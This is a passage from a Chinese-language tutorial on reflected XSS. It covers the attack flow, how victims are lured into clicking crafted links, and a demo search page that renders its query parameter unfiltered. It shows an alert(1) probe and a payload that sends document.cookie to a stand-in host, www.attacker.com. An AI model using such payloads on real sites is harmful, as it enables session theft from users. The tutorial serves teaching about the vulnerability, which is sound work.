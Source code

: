 攻击者可以通过各种方式(在网站上放置链接、或者通过电子邮件发送链接)诱使用户发出指定的请求, 然后返回恶意脚本进行 Xss 攻击,。 攻击可以直接针对已知用户, 也可以对任意用户进行攻击。

### 流程

1. 攻击者制作一个恶意字符串的链接发送给受害者。
2. 受害者被诱骗点击恶意链接, 然后访问该恶意链接进入有漏洞的网站。
3. 网站后端进行处理返回拼接后的 html, html 中包含恶意 JavaScript。
4. 受害者的浏览器接收到响应后解析执行, 混入其中的恶意 JavaScript 也被执行(比方说: 将受害者的 cookie 发送给攻击者)。

一开始觉得反射型看起来无害, 因为它要求受害者自己发送包含恶意字符串的链接, 我们不可能说自己攻击自己, 但实际上更多的方式是通过伪装让受害者对自己发送反射型攻击:

- 针对特定的某一个人, 攻击者可以将恶意链接发送给受害者(比如说: 邮箱、短信、消息等)并诱使他去访问。
- 针对一群人, 攻击者可以发布指向恶意链接（比如说: 个人网站、群消息、公告等）并等待访问者点击它。

这两种方法是相似的，都是通过伪装的方式, 屏蔽掉恶意字符串的链接, 否则用户会识别它。

### 举个 🌰🌰🌰

看了上面流程, 可能还不太懂, 再来一个实际的例子, 这里有一个[在线 demo](https://codesandbox.io/s/refect-xss-demo-onzgo?file=/src/index.html)。

可以看到这样子的界面

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b847f132c1f34875881ce4a811829fc5~tplv-k3u1fbpfcp-zoom-1.image)

它有一个搜索功能, 在输入框上访问`/search?q=关键字`即可点击搜索按钮即可进行搜索, 因为这里主要是展示 xss 攻击, 所以就没有做真正的搜索。

所以当我们进行搜索的时候, 会有一个`q`的参数传递给后端。 所以有两种情况:

1. 正常 JavaScript: 假如我们输入`q=keywords`, 传递给后端的数据就是`{ q: 'keywords' }`, 这看起来没什么问题。
2. 恶意 JavaScript: 假如我们输入`q=<script>alert(1)</script>`, 传递给后端的是`{ q: '<script>alert(1)</script>' }`, 完蛋, 参数是恶意代码, 服务器直接渲染造成 xss 攻击。

当传入恶意 JavaScript 的时候, 这里我们已经造成了反射型 xss 攻击, 但是是对我们自己造成了 xss 攻击, 那么怎么对其他人造成反射型 xss 攻击呢?

按照上面那个流程, 我们再来走一遍:

1. 第一步: 找到查询参数这个漏洞之后, 我们发现可以制造一个带有恶意 JavaScript 的 URL, 比如说制作一个`/search?q=<script> window.location="www.attacker.com?cookie="+document.cookie </script>`。
2. 第二步: 然后通过邮箱、广告等方式诱使用户去点击,访问恶意链接的网站.
3. 第三步: 然后网站后端取出查询关键字, 这里对应的就是`<script>...</script>`, 然后进行拼接成 html, 然后将 html 返回给浏览器。
4. 第四步: 用户浏览器执行执行`<script>...</script>`里的内容, 然后就把当前网站的 cookie 发送给攻击者。

由此我们知道, **反射型 Xss 需要点击某一个链接或者说触发某一个操作访问一个有漏洞的网站, 然后网站后端接收到之后再进行处理该请求, 后端根据前端传递过来的数据生成了对应的 html 然后返回给前端**, 前端直接就进行了渲染, 那么反射是发生在哪里呢?

其实就是在后端处理的时候, 如果前端传递过来的数据本身就是恶意代码的话, 后端不会做一层过滤, 直接就渲染成了 html 然后返回给前端, 所以也就是在这里发生了所谓的"反射"。

继续拿上面那个例子, 当我们进行搜索时, 会渲染出关键字, 并且会展示搜索出来的结果。

URL 地址: `http://xxxx/search?keywords=javascript`。

**后端渲染之后返回给前端的 Html 结构**:

```html
<div>关键字: javascript</div>
<div>结果: xxxx</div>
```
